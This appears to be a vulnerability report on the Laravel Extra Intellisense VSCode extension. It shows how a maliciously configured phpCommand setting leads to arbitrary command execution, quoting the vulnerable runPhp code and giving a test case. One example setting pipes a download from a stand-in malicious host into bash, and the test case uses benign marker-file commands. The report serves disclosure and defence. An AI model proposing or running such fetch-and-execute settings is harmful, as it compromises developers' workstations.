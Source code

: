 ### Vulnerability List

- Vulnerability Name: Arbitrary PHP Code Execution via `phpCommand` Configuration
- Description:
    1. The "Laravel Extra Intellisense" extension for VSCode allows users to configure a custom PHP command via the `LaravelExtraIntellisense.phpCommand` setting. This command is used by the extension to execute PHP code within the user's Laravel project to gather data for autocompletion features.
    2. A malicious actor could trick a developer into configuring a malicious `phpCommand`. This could be achieved through social engineering, such as suggesting a seemingly harmless configuration change in a blog post, tutorial, or during a support interaction.
    3. Once a malicious `phpCommand` is configured, any operation performed by the extension that triggers PHP code execution (which is the core functionality of the extension, happening automatically and periodically) will execute the attacker-controlled command.
    4. For example, an attacker could convince a user to set `LaravelExtraIntellisense.phpCommand` to execute system commands instead of PHP, like `bash -c "curl malicious.site | bash"`.
    5. When the extension attempts to gather autocompletion data, it will execute this malicious command, leading to arbitrary command execution on the developer's machine.
- Impact:
    - Critical. Successful exploitation allows the attacker to execute arbitrary commands on the developer's machine with the same privileges as VSCode. This can lead to:
        - Full compromise of the developer's workstation.
        - Theft of source code, credentials, and other sensitive information.
        - Installation of malware, backdoors, or ransomware.
        - Further attacks on internal networks or systems accessible from the developer's machine.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The extension directly uses the configured `phpCommand` without any validation or sanitization. The "Security Note" in the README.md warns users about potential errors but does not explicitly address the risk of malicious configurations leading to code execution.
    - The README.md contains a "Security Note" that mentions "This extension runs your Laravel application automatically and periodically to get the information needed to provide autocomplete." and "So if you have any unknown errors in your log make sure the extension not causing it." and "Also if you writing any sensitive code in your service providers, disable the extension temporarily to prevent unwanted application executing." but this is only a weak warning and not a mitigation.
- Missing Mitigations:
    - Input validation and sanitization for the `phpCommand` configuration.
    - Restricting the `phpCommand` to only execute `php` interpreter and preventing execution of other system commands.
    - Displaying a prominent security warning to the user upon installation or when the `phpCommand` configuration is modified, highlighting the risks of using custom commands and advising to only use trusted configurations.
    - Implementing a default `phpCommand` that is safe and sufficient for most use cases, reducing the need for users to modify this setting.
- Preconditions:
    - The user must have the "Laravel Extra Intellisense" extension installed in VSCode.
    - The user must configure the `LaravelExtraIntellisense.phpCommand` setting with a malicious command provided by the attacker.
    - The extension must be activated and running within a Laravel project.
    - An action that triggers the extension to execute PHP code must be performed (e.g., opening a PHP or Blade file, triggering autocompletion).
- Source Code Analysis:
    - File: `src/helpers.ts`
    - Function: `runPhp(code: string, description: string|null = null)`
    - Line: `let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";`
    - Line: `let command = commandTemplate.replace("{code}", code);`
    - Line: `cp.exec(command, ...)`

    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');
            code = code.replace(/\\\\"/g, '\\\\\\\\\"');
        }
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\""; // Vulnerable line: Retrieves phpCommand from configuration
        let command = commandTemplate.replace("{code}", code); // Vulnerable line: Constructs command by simply replacing {code}
        let out = new Promise<string>(function (resolve, error) {
            if (description != null) {
                Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
            }

            cp.exec(command, // Vulnerable line: Executes the command using child_process.exec
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) {
                    if (err == null) {
                        if (description != null) {
                            Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                        }
                        resolve(stdout);
                    } else {
                        const errorOutput = stderr.length > 0 ? stderr : stdout;
                        Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                        Helpers.showErrorPopup();
                        error(errorOutput);
                    }
                }
            );
        });
        return out;
    }
    ```
    - The `runPhp` function retrieves the `phpCommand` from the user configuration without any validation.
    - It then directly substitutes the `{code}` placeholder in the configured command with the PHP code to be executed.
    - Finally, it uses `child_process.exec` to execute the constructed command. This allows execution of arbitrary commands if the user configures `phpCommand` maliciously.

- Security Test Case:
    1. Open VSCode with a Laravel project.
    2. Go to VSCode settings (File -> Preferences -> Settings -> Settings or Code -> Settings -> Settings on macOS).
    3. Search for "Laravel Extra Intellisense Php Command".
    4. Modify the `LaravelExtraIntellisense: Php Command` setting to the following malicious command:
        ```bash
        bash -c "touch /tmp/pwned_by_laravel_intellisense"
        ```
        Alternatively, for a more visible impact, you can use:
        ```bash
        bash -c "mkdir /tmp/laravel_intellisense_pwned && echo 'You have been PWNED by Laravel Intellisense Extension' > /tmp/laravel_intellisense_pwned/PWNED.txt && open /tmp/laravel_intellisense_pwned/PWNED.txt"
        ```
        or on Windows (PowerShell):
        ```powershell
        powershell -c "powershell -c "New-Item -ItemType directory -Path C:\pwned_by_laravel_intellisense; New-Item -ItemType file -Path C:\pwned_by_laravel_intellisense\PWNED.txt -Value 'You have been PWNED by Laravel Intellisense Extension'; Start-Process C:\pwned_by_laravel_intellisense\PWNED.txt""
        ```
    5. Open any PHP or Blade file in the Laravel project, or trigger any autocompletion feature provided by the extension. This will cause the extension to execute PHP code using the malicious `phpCommand`.
    6. Verify that the malicious command has been executed. For the `touch` command, check if the file `/tmp/pwned_by_laravel_intellisense` has been created. For the `mkdir` and `echo` command, check if the directory `/tmp/laravel_intellisense_pwned` and the file `/tmp/laravel_intellisense_pwned/PWNED.txt` with the expected content have been created and opened. On Windows, check for `C:\pwned_by_laravel_intellisense` directory and file.
    7. This confirms that arbitrary commands can be executed by configuring a malicious `phpCommand`.
